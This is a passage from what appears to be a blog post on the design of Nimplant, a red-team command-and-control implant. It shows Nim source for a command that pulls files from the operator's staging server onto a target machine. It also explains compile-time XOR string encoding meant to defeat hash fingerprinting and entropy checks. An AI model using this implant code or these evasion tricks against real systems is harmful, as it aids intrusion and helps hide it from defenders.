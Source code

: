 ```python
        fileId = args[0]
        fileName = args[1]
        filePath = args[2 .. ^1].join(" ")
    else:
        # Handling of the second argument (filename) is done by the python server
        result = "Invalid number of arguments received. Usage: 'upload [local file] [optional: remote file]'."
        return
    
		# Parse the staging server from the configuration file
    url = li.listenerType & "://"
    if li.listenerHost != "":
        url = url & li.listenerHost
    else:
        url = url & li.listenerIp & ":" & li.listenerPort
    url = url & li.taskpath & "/" & fileId & "?id=" & li.id

    # Download the file - Puppy will take care of transparent gzip deflation
    res = fetch(
            url,
            headers = @[Header(key: "User-Agent", value: li.userAgent)]
            )
    
    if res == "":
        result = "Something went wrong uploading the file (Nimplant did not receive response from staging server '" & url & "')."
        return
    else:
        filePath.writeFile(res)
        result = "Uploaded file to '" & filePath & "'."
```

**Defense Evasion**

As mentioned earlier on in this post, the idea behind Nimplant is to minimize malicious functionality. This includes defense evasion tricks that, when spotted by a defender, reveal the true nature of Nimplant. I did however choose to include a variant of [nim-strenc](https://github.com/Yardanico/nim-strenc), a library that implements a macro that XOR-encodes static strings at compile time. I'd recommend to take a look at the code, it's a pretty good example of how powerful compile-time macro's can be in Nim. 

Though this results in a collection of strings that may look suspicious on manual inspection, it has several advantages. First, it hides semi-sensitive string values from prying eyes, unless an analyst is brave enough to open up a debugger. Additionally, the random seeds for XOR-encoding ensure that the fingerprint of Nimplant is different every time it is compiled, even if the same configuration is used. This helps prevent static fingerprinting of the binary by e.g. the MD5 hash of the file. Finally, using XOR does not affect the entropy value of the binary - an important measure for determining if encrypted and potentially malicious content is present in a binary. Overall, this results in a net benefit for Nimplant where some degree of obfuscation is achieved while limiting the amount of  suspicious indicators.

### The Wrapper
